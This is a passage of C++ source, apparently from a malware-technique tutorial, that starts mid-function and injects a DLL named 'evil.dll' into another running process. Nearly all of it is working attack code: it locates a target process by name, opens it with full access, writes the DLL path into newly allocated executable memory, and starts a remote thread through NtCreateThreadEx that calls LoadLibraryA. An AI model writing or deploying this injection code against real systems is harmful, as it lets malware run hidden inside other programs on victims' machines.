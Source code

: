 ```cpp
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer
  SIZE_T rl; // return length

  char evilDll[] = "evil.dll";
  int evilLen = sizeof(evilDll) + 1;
  
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  LPTHREAD_START_ROUTINE lb = 
  (LPTHREAD_START_ROUTINE) GetProcAddress(
    hKernel32, "LoadLibraryA");
  pNtCreateThreadEx ntCTEx = (pNtCreateThreadEx)GetProcAddress(
    GetModuleHandle("ntdll.dll"), "NtCreateThreadEx");
  
  if (ntCTEx == NULL) {
    CloseHandle(ph);
    printf("NtCreateThreadEx failed :( exiting...\n");
    return -2;
  }

  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);

    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

    if (ph == NULL) {
      printf("OpenProcess failed :( exiting...\n");
      return -2;
    }

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, evilLen, 
    MEM_RESERVE | MEM_COMMIT, 
    PAGE_EXECUTE_READWRITE);

    // write payload to memory buffer
    WriteProcessMemory(ph, rb, evilDll, evilLen, rl); // NULL);

    ntCTEx(&ht, 0x1FFFFF, NULL, ph, 
    (LPTHREAD_START_ROUTINE) lb, rb, 
    FALSE, NULL, NULL, NULL, NULL);

    if (ht == NULL) {
      CloseHandle(ph);
      printf("ThreadHandle failed :( exiting...\n");
      return -2;
    } else {
      printf("successfully inject via NtCreateThreadEx :)\n");
```